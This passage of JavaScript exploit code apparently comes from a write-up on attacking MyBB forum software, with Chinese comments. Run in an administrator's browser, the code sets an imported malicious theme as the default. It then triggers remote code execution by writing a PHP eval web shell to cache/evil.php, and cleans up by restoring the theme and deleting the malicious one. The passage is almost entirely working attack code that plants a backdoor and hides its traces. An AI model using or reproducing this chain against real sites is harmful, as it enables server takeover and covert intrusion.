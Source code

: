 ```
                var parser = new DOMParser();
                var doc3 = parser.parseFromString(res, "text/html");
                aTag = doc3.getElementsByTagName("a")

                 for(var i=0;i&lt;aTag.length;i++)`{`
                     if(aTag[i].innerHTML == 'evilTheme1')`{`
                         evil_theme = aTag[i]
                         break
                     `}`
                `}`
                //获取设置默认主题的接口 url
                evil_theme_set = evil_theme.parentNode.parentNode.previousElementSibling.firstElementChild.href
                evil_theme_set = evil_theme_set.replace('index.php','admin/index.php')
                console.log('evil_theme_set: ' + evil_theme_set)

                //获取恶意主题的tid
                evil_theme_tid = evil_theme.href.split('tid=')[1]
                console.log('evil_theme_tid: ' + evil_theme_tid)
            `}`
        `}`
    `}`
    xhr.send();

    //设置默认主题
    var xhr2=new XMLHttpRequest();
    xhr2.open('GET',evil_theme_set,false);
    xhr2.send();
`}`

function trigger_rce()`{`
    //访问首页触发 RCE
    var xhr=new XMLHttpRequest();
    xhr.open('GET',bashurl + '/index.php?0=cache/evil.php&amp;1=&lt;?php eval($_GET[100]);?&gt;',false);
    xhr.send();
`}`

function clean()`{`
    // 重置默认主题
    var xhr1=new XMLHttpRequest();
    xhr1.open('GET',source_theme,false);
    xhr1.send();

    //删除恶意主题
    var xhr2 = new XMLHttpRequest();
    var formData = new FormData();
    var url = bashurl + '/admin/index.php?module=style-themes&amp;action=delete&amp;tid=' + evil_theme_tid
    formData.append("my_post_key", my_post_key);
    xhr2.open("POST", url);
    xhr2.send(formData);
`}`

//获取当前默认主题
get_themes()

//如果获取不到 csrf_token
//说明不是 管理员访问
if(my_post_key != '')`{`
    //导入恶意主题
    import_xml()

```